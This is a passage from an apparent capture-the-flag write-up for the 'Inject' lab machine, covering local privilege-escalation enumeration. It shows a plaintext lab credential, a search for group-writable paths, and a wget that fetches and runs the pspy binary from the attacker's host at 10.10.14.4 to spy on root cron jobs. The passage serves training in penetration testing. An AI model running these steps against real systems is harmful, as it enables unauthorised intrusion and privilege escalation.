 Credentials: `phil:DocPhillovestoInject123`.

```bash
frank@inject:/$ su phil
Password:
phil@inject:/$ cat home/phil/user.txt
...snip...
```

## Privilege Escalation

>_Checks for sudo permissions, user files, and SUIDs did not return anything of interest._

Check groups:

```bash
phil@inject:/$ groups
phil staff

phil@inject:/$ find / -group staff -writable 2>/dev/null
/opt/automation/tasks
/var/local
/usr/local/lib/python3.8
/usr/local/lib/python3.8/dist-packages
/usr/local/share/fonts
```

Use [`pspy`](https://github.com/DominicBreuker/pspy):

```bash
$ ls -l pspy64
-rwxr-xr-x 1 kali kali 3104768 Jan 22 08:24 pspy64

$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Download `pspy` from target:

```bash
phil@inject:/$ cd /dev/shm
phil@inject:/dev/shm$ wget http://10.10.14.4:8000/pspy64
--2024-02-08 18:51:53--  http://10.10.14.4:8000/pspy64
Connecting to 10.10.14.4:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64              100%[===================>]   2.96M  3.67MB/s    in 0.8s

2024-02-08 18:51:53 (3.67 MB/s) - ‘pspy64’ saved [3104768/3104768]
phil@inject:/dev/shm$ chmod +x pspy64
phil@inject:/dev/shm$ ./pspy64
...snip...
2024/02/08 18:52:17 CMD: UID=0     PID=1      | /sbin/init auto automatic-ubiquity noprompt
2024/02/08 18:54:01 CMD: UID=0     PID=8452   | /bin/sh -c /usr/bin/rm -rf /var/www/WebApp/src/main/uploads/*
2024/02/08 18:54:01 CMD: UID=0     PID=8451   | /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml
2024/02/08 18:54:01 CMD: UID=0     PID=8450   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
2024/02/08 18:54:01 CMD: UID=0     PID=8449   | /usr/sbin/CRON -f
...snip...
```

